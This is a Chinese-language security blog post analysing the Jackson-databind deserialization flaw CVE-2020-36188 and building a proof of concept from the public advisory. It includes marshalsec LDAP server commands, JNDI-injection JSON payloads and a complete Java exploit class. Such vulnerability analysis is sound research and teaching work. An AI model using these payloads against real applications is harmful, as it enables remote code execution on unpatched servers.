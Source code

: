 > 原文链接: https://www.anquanke.com//post/id/227943 


# Jackson反序列化漏洞（CVE-2020-36188）从通告到POC


                                阅读量   
                                **157985**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p1.ssl.qhimg.com/t0164ec110fc09447f2.png)](https://p1.ssl.qhimg.com/t0164ec110fc09447f2.png)



## 0x01 前言

这里将分析Jackson反序列化漏洞（[CVE-2020-36188](https://nvd.nist.gov/vuln/detail/CVE-2020-36188)）的分析过程，同时将会把如何从漏洞通告来分析构造并且调试出POC代码分享给大家。



## 0x01 Jackson的介绍

大家都苦受Fastjson动不动就爆出一个反序列化漏洞而苦恼，从而将目光转向了Jackson。

相比于Fastjson，Jackson不仅开源稳定易使用，而且拥有Spring生态加持，更受使用者的青睐。然而Jackson似乎也陷入了白帽子不断发现可利用Gadget，Jackson不断增加黑名单的泥坑当中。最近甚至一次性通告了十来个CVE。

具体Jackson如何使用就不在这里浪费篇幅，大家可以百度获取相关信息。



## 0x02 Jackson漏洞简述

Jackson的漏洞主要集中在jackson-databind中，当启用Global default typing，类似于FastJson的autoType，会存在各种各样的反序列化绕过类，而官方更新的防护措施一般都是将新出现的恶意类加入黑名单。如果需要完全杜绝这种频繁的升级体验，可以升级到`2.10.x`版本，这个版本中Jackson使用了白名单进行恶意类的防护。

下面会以最近漏洞通告中的`CVE-2020-36188`进行分析一下如何对一个新出现的漏洞进行分析，并且不再依赖他人，自己来编写POC。



## 0x03 Jackson漏洞详细分析

以下摘抄一下这次漏洞通告中的信息：

```
CVE-2020-36188FasterXML jackson-databind 2.x &lt; 2.9.10.8的版本存在该漏洞，该漏洞是由于com.newrelic.agent.deps.ch.qos.logback.core.db.JNDIConnectionSource组件库存在不安全的反序列化，导致攻击者可能利用漏洞实现远程代码执行。

```

从漏洞通告信息中我们可以了解到该漏洞的影响版本及Gadget的第三方库信息。

先来搭建一下测试环境：

ladp环境简单讲述一下，如有疑惑百度即可。

```
python -m http.server
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8000/\#Exploit
```

接下来创建环境并添加依赖，我这里使用IDEA+Maven。还需要注意一下JDK版本，我这里使用的是`jdk1.8.0_144`。

首先添加`jackson`的依赖，我们选择2.9.9版本（也可以选择影响范围内的其它版本）。

```
&lt;dependency&gt;
    &lt;groupId&gt;com.fasterxml.jackson.core&lt;/groupId&gt;
  &lt;artifactId&gt;jackson-databind&lt;/artifactId&gt;
  &lt;version&gt;2.9.9&lt;/version&gt;
&lt;/dependency&gt;
```

然后添加一下Gadget所在的第三库依赖，推荐使用[https://search.maven.org/去搜索组件在哪一个第三方库当中。](https://search.maven.org/%E5%8E%BB%E6%90%9C%E7%B4%A2%E7%BB%84%E4%BB%B6%E5%9C%A8%E5%93%AA%E4%B8%80%E4%B8%AA%E7%AC%AC%E4%B8%89%E6%96%B9%E5%BA%93%E5%BD%93%E4%B8%AD%E3%80%82)

使用`fc:com.newrelic.agent.deps.ch.qos.logback.core.db.JNDIConnectionSource`做为搜索关键字，这里`fc`指`full class`，即完整class路径。

[![](https://p1.ssl.qhimg.com/t01b60fafe7d1819e83.png)](https://p1.ssl.qhimg.com/t01b60fafe7d1819e83.png)

可以看到我们需要的第三方依赖库是`newrelic-agent`，需要注意版本使用搜索结果中的就可以，搜索结果外的版本可能去除或者修改了当前组件。

也可以直接去`Jackson`的Github上查找相关描述

[![](https://p1.ssl.qhimg.com/t0159998b60aa8f78a9.png)](https://p1.ssl.qhimg.com/t0159998b60aa8f78a9.png)

添加`newrelic-agent`的依赖

```
&lt;dependency&gt;
    &lt;groupId&gt;com.newrelic.agent.java&lt;/groupId&gt;
    &lt;artifactId&gt;newrelic-agent&lt;/artifactId&gt;
    &lt;version&gt;3.38.0&lt;/version&gt;
&lt;/dependency&gt;
```

接下来参考一下jackson反序列化其它相似漏洞POC代码，这里参考使用了`CVE-2020-35490`的POC代码。

```
ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        String payload = "[\"com.nqadmin.rowset.JdbcRowSetImpl\",`{`\"dataSourceName\":\"ldap://127.0.0.1:1389/Exploit\",\"autoCommit\":\"true\"`}`]";

        Object o = mapper.readValue(payload, Object.class);
        mapper.writeValueAsString(o);
```

可以看到payload的中的`com.nqadmin.rowset.JdbcRowSetImpl`就是存在不安全反序列化的组件路径，而后面的参数就是`JdbcRowSetImpl`类的属性。

根据漏洞通告中的组件信息，我们将前面的参数替换一下，接下来就需要去搜索代码查看类属性需要怎么设置了。

这里需要插入一点的是当前Jackson反序列化漏洞都是JNDI注入导致的远程代码执行，那么我们需要做的就是在存在不安全反序列化的组件中查找可以触发JNDI注入的代码。

在漏洞描述的不安全类中搜索`lookup`关键字

[![](https://p0.ssl.qhimg.com/t0166384543c20c5343.png)](https://p0.ssl.qhimg.com/t0166384543c20c5343.png)

这里的`lookup`就是会触发JNDI注入的关键代码

```
Context initialContext = new InitialContext();
Object obj = initialContext.lookup(this.jndiLocation);
```

那么我们就需要在payload中设置相应的属性，这里就是`jndiLocation`，通过再次搜索代码可以看到`jndiLocation`有一个`setJndiLocation`方法，并且在反序列化过程是会自动调用setter方法的，那我们直接在payload中设置属性就可以了。

```
`{`"jndiLocation":"ldap://127.0.0.1:1389/Exploit"`}`
```

然后再查看`lookup`所在代码的触发条件，所在的函数是`lookupDataSource`，这个函数在`getConnection`函数中存在，当`dataSource == null`的时候会执行到，而`dataSource`在第一次进入时默认就是`null`。

这里还利用到的一点就是在序列化的时候，Jackson会先利用反射找到对象类的所有get方法，接下来去掉get前缀，然后首字母小写，作为json的每个key值，而get方法的返回值作为value。就是说`getter`方法会在序列化时被自动调用，意味着`getConnection`会在序列化时被调用到。我们的POC代码中最后使用`writeValueAsString`对对象进行了序列化操作，所以payload只要设置`jndiLocation`属性就可以了。

最后，完整的payload就是这样样子的了

```
String payload = "[\"com.newrelic.agent.deps.ch.qos.logback.core.db.JNDIConnectionSource\",`{`\"jndiLocation\":\"ldap://127.0.0.1:1389/Exploit\"`}`]";
```

完整的POC如下：

```
import com.fasterxml.jackson.databind.ObjectMapper;

import java.io.IOException;

public class CVE_2020_36187 `{`
    public static void main(String[] args) throws IOException `{`
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        String payload = "[\"com.newrelic.agent.deps.ch.qos.logback.core.db.JNDIConnectionSource\",`{`\"jndiLocation\":\"ldap://127.0.0.1:1389/Exploit\"`}`]";

        Object o = mapper.readValue(payload, Object.class);
        mapper.writeValueAsString(o);
    `}`
`}`
```

至于Jackson是怎么反序列化触发`JNDIConnectionSource`就不进行赘述了，与其它的相似漏洞都是一致的，最后执行一下，看下效果。

[![](https://p4.ssl.qhimg.com/t01c2b0d9d3dff25c5a.png)](https://p4.ssl.qhimg.com/t01c2b0d9d3dff25c5a.png)

在`lookup`代码上打下断点debug就可以在左下角看到完整的利用链了

[![](https://p0.ssl.qhimg.com/t0139eb60b9876eb425.png)](https://p0.ssl.qhimg.com/t0139eb60b9876eb425.png)



## 0x04 结语

在本篇中给大家介绍了Jackson反序列化当中使用JNDI进行触发的分析过程，大家以后也可以构造这一类的POC了吼。
